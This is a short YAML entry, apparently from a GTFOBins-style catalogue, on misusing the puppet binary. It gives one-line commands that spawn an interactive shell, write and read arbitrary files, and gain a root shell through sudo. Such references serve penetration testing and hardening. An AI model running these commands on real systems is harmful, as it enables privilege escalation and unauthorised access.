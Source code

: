 ```yaml
---
name: puppet
functions:
  shell:
    - code: |
        puppet apply -e "exec { '/bin/sh -c \"exec sh -i <$(tty) >$(tty) 2>$(tty)\"': }"
  file-write:
    - description: The file path must be absolute.
      code: |
        export LFILE="/tmp/file_to_write"
        puppet apply -e "file { '$LFILE': content => 'DATA' }"
  file-read:
    - description: The read file content is corrupted by the `diff` output format. The actual `/usr/bin/diff` command is executed.
      code: |
        export LFILE=file_to_read
        puppet filebucket -l diff /dev/null $LFILE
  sudo:
    - code: |
        sudo puppet apply -e "exec { '/bin/sh -c \"exec sh -i <$(tty) >$(tty) 2>$(tty)\"': }"
---
```

